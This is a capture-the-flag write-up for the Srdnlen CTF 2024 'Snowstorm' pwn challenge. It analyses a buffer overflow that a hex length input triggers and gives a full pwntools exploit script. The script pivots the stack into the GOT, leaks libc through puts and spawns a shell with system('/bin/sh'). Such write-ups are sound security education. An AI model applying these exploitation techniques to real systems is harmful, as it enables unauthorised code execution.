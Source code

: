 # Snowstorm

## challenge information

Surdnlen CTF 2024: [challenge](https://ctf.srdnlen.it/challenges#challenge-14)
`pwn userland`

## analysis
* vulnerability
  * there is a buffer overflow vulnerability in `ask_length()`.
  ![Screenshot_20250122_221434.png](Screenshot_20250122_221434.png)
  * if the string was formatted in Hex, `strtol` return the decimal value.
  * in this case, we can bypass the size restriction by input hex value, 0x40.
* exploit plan
  * pivot stack to .got section.
  * overwrite close() -> puts()
  * return to pwnme() and earn puts(puts)
  * assemble system("/bin/sh")
## exploit
* checksec
```bash
pwndbg> checksec
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
* stack offset
  * the distance between out input and saved rbp is 0x30
```py
   0x00000000004015bd <+83>:    call   0x40136a <ask_length>
   0x00000000004015c2 <+88>:    movsxd rdx,eax
   0x00000000004015c5 <+91>:    lea    rax,[rbp-0x30]
   0x00000000004015c9 <+95>:    mov    rsi,rax
   0x00000000004015cc <+98>:    mov    edi,0x0
   0x00000000004015d1 <+103>:   call   0x401160
```
* mapping address in .got region
![Screenshot_20250122_223117.png](Screenshot_20250122_223117.png)

## solver
```Py
from pwn import *

e = ELF("snowstorm")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
ld = ELF("/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2")

context.binary = e

p = e.process()

gdb.attach(p,"""
b *pwnme+88
b *pwnme+103
b *pwnme+118
""")
# 0x00000000004015ff: or eax, 0x90fffffb; leave; ret; 
or_eax = 0x00000000004015ff
ret = 0x000000000040101a

print(p.recv())
p.send(b"0x40")
payload = b"A"*0x30
payload+= p64((e.got["strlen"])+0x30)
payload+= p64((e.sym["pwnme"])+83)
print(p.recv())
p.send(payload)

#print(p.recvuntil(b"(max 40): "))
print(p.recv())
p.send(b"0x40")
payload = p64(e.got["strlen"]) #strlen
payload+= p64(e.got["strlen"]) #printf
payload+= p64(e.plt["puts"]) #close
#payload+= p64(or_eax)
payload+= p64(0x401080) #strcspn
payload+= p64(0x401090) #read
#payload+= p64((e.got["puts"])<<32)
payload+= p32(0x404028)
payload+= p32(0x404000)
payload+= p64((e.got["strlen"])+0x30)
payload+= p64(e.sym["pwnme"]+88)
print(p.recv())
p.send(payload)

leak = u64(p.recvline().strip().ljust(8,b"\x00"))
print(f"leak: {hex(leak)}")
libc.address = leak - libc.sym["puts"]
print(f"libc@ {hex(libc.address)}")

payload = p64(0x401050) #strlen
payload+= p64(0x401050) #printf
payload+= p64(libc.sym["system"]) #close
payload+= b"/bin/sh\0" #strcspn
payload+= b"\x90"
print(p.recv())
p.send(payload)

print(p.recv())
p.send(payload)

p.interactive()
```
